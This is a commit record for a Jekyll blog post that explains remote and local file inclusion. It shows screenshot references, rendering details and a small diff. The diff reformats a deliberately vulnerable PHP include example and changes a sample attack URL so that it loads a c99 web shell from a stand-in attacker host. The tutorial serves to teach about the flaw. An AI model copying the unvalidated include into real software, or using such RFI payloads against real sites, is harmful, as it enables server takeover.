

Before and after one commit to shivaGprasadh/shivaGprasadh.github.io, a Jekyll site: the page built from _posts/2020-02-09-file-inclusion.md, in a window 1280 px wide and 900 px high, scrolled down 1361 px. Shown: the whole window, without its empty margins (136-851 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; our own code applies the rules of GitHub Pages for plain Markdown files; comment, search, counter and statistics services are not loaded.

Commit message:
Update 2020-02-09-file-inclusion.md

````diff
--- a/_posts/2020-02-09-file-inclusion.md
+++ b/_posts/2020-02-09-file-inclusion.md
@@ -55,11 +55,15 @@ Sensitive Information Disclosure
 
 Since RFI occurs when paths passed to "include" statements are not properly sanitized, in a blackbox testing approach, we should look for scripts which take filenames as parameters. Consider the following PHP example:
 ```
-$incfile = $_REQUEST["file"];
-include($incfile.".php");
+	<?php
+	$incfile = $_REQUEST["file"];
+	include($incfile.".php");
+	?>
 ```
 In this example the path is extracted from the HTTP request and no input validation is done.
-```http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite/malicousURL```
+```
+[URL] http://vulnerableWebSite.com/vulnPage.php?file=http://attackerSite.com/c99.php
+```
 
 File Inclusion (RFI/LFI) mostly occurs from some functions that developers	do not properly check user supplied data.
 
````
